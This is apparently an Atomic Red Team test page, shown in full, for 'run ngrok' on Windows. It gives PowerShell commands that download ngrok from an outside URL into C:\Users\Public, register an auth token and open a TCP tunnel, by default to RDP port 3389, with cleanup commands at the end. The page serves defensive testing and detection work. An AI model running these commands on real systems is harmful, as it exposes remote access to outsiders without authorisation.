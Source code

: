 <br/>
<br/>

## Atomic Test #4 - run ngrok
Download and run ngrok. Create tunnel to chosen port.

**Supported Platforms:** Windows


**auto_generated_guid:** 4cdc9fc7-53fb-4894-9f0c-64836943ea60





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| api_token | ngrok API | string | N/A|
| port_num | port number for tunnel | integer | 3389|
| download | link to download ngrok | string | https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-windows-amd64.zip|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Users\Public\ngrok\ngrok.exe config add-authtoken #{api_token} | Out-Null
Start-Job -ScriptBlock { C:\Users\Public\ngrok\ngrok.exe tcp #{port_num} } | Out-Null
Start-Sleep -s 5 
Stop-Job -Name Job1 | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-Item C:\Users\Public\ngrok -Recurse -ErrorAction Ignore
Remove-Item C:\%userprofile%\AppData\Local\ngrok -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Download ngrok
##### Check Prereq Commands:
```powershell
if (Test-Path C:\Users\Public\ngrok) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path C:\Users\Public\ngrok -ItemType Directory | Out-Null
Invoke-WebRequest #{download} -OutFile C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip
Expand-Archive C:\Users\Public\ngrok\ngrok-v3-stable-windows-amd64.zip -DestinationPath C:\Users\Public\ngrok
```




<br/>
